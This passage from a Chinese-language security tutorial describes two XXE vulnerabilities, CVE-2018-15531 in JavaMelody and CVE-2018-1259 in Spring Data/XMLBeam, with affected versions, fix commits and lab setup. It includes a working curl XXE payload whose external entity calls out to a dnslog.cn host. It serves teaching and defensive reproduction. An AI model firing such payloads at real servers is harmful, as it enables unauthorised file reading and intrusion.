 ## 14.3 XXE漏洞举例

### 14.3.1 CVE-2018-15531

+ 漏洞简介

JavaMelody是一款在生产和QA环境中对JAVA应用以及应用服务器(Tomcat、Jboss、Weblogic)进行监控的工具，可以通过图表给出监控数据，方便研发运维等找出响应瓶颈、优化响应等。 在 1.74.0版本，修复了一个XXE漏洞，漏洞编号CVE-2018-15531。攻击者利用漏洞，可以读取JavaMelody服务器上的敏感信息。

+ 影响版本

版本 < 1.74.0

+ 修复代码

![图 JavaMelody修复代码commit](../../.vuepress/public/images/book/xxe/Xnip2024-05-10_08-16-59.jpg)

链接地址：https://github.com/javamelody/javamelody/commit/ef111822562d0b9365bd3e671a75b65bd0613353

+ 环境准备

在springboot工程的pom.xml中在家javamelody依赖
```java
<dependency>
    <groupId>net.bull.javamelody</groupId>
    <artifactId>javamelody-spring-boot-starter</artifactId>
    <version>1.73.1</version>
</dependency>           
```
启动应用后访问 http://localhost:8080/monitoring

![图 JavaMelody修复代码commit](../../.vuepress/public/images/book/xxe/javamelody_monitoring.png)

+ dnslog
申请一个dns域名`x9m8kb.dnslog.cn`，发送请求
```java
curl --location --request POST 'http://localhost:8080' \
--header 'Content-type: text/xml' \
--header 'SOAPAction: aaaaa' \
--data-raw '<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://www.x9m8kb.dnslog.cn">
%remote;
]>
</root>'
```
也可以用postman发送请求：
![图 用postman发送请求](../../.vuepress/public/images/book/xxe/request_rasp.png)

+ 观察结果

![图 XXE攻击结果](../../.vuepress/public/images/book/xxe/dns_result.png)


### 14.3.2 CVE-2018-1259

+ 漏洞简介

XMLBeans 提供了底层XML数据的对象视图，同时还能访问原始的XML信息集合。Spring Data Commons 1.13至1.13.11以及2.0至2.0.6的版本在与XMLBeam1.4.14或更早的版本进行结合使用时，XMLBeam不会限制XML外部实体应用，导致未经身份验证的远程恶意用户可以针对Spring Data的请求绑定特定的参数，访问系统上的任意文件.

+ 影响版本

Spring Data Commons 1.13 to 1.13.11

Spring Data REST 2.6 to 2.6.11

Spring Data Commons 2.0 to 2.0.6

Spring Data REST 3.0 to 3.0.6

+ 漏洞分析

通过 漏洞修复commit (opens new window)发现，对DefaultXMLFactoriesConfig.java进行了修改，如下：
![图 用postman发送请求](../../.vuepress/public/images/book/xxe/Xnip2024-05-10_08-28-18.jpg)

配置了默认的feature; 禁止实体引用、禁止合并多个XML文档;

+ 复现

代码来源于 spring-data-examples 官方demo spring-data-xml-xxe